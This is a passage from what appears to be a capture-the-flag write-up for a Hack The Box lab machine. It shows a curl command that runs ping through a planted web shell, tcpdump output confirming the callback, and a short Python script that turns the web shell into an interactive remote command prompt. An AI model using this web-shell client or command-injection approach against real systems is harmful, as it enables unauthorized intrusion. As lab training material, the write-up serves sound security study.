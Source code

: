 Unfortunately, I can't seem to get anything to connect back to me. I
tried on numerous ports to connect back with `nc`, but all without
success. I was able to ping myself:



    root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode "hidden=ping -c 1 10.10.14.5"
    PING 10.10.14.5 (10.10.14.5) 56(84) bytes of data.
    64 bytes from 10.10.14.5: icmp_seq=1 ttl=63 time=23.1 ms

    --- 10.10.14.5 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 23.107/23.107/23.107/0.000 ms



And see the it locally:



    root@kali# tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:22:56.316603 IP 10.10.10.155 > 10.10.14.5: ICMP echo request, id 13436, seq 1, length 64
    07:22:56.316662 IP 10.10.14.5 > 10.10.10.155: ICMP echo reply, id 13436, seq 1, length 64 



I'll look at the IpTables rules in [Beyond Root](#iptables).

### Simple Shell

Given that I'll be enumerating with just the RCE, I'll script a shell to
make it easier:



    #!/usr/bin/env python3

    import requests
    from cmd import Cmd


    class Term(Cmd):
        prompt = "scavenger> "

        def default(self, args):
            resp = requests.get('http://sec03.rentahacker.htb/shell.php',
                    params = {"hidden": args}, proxies={'http':'http://127.0.0.1:8080'})
            print(resp.text)

    term = Term()
    term.cmdloop()



This will run commands, though there's no state, so I can't change
directories, or get a tty to run `su`:



    root@kali# ./scavenger-simple.py 
    scavenger> id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
